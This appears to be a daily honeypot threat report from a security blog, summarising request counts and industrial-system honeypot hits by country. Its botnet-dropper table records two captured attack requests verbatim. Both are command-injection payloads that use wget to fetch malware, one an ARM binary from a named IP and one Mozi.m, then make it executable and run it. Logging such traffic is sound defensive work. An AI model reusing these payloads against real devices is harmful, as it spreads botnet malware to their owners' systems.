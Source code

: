 ```yaml
---
title: "Report: 2025-04-26 "
date: 2025-04-26
desciption: "Report: 2025-04-26" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-26 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 61 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2169 requests were recorded during the day, originating from 2 different countries, with a peak of 458 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| DE               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 124.220.11.157 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
| 122.97.137.118 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                |
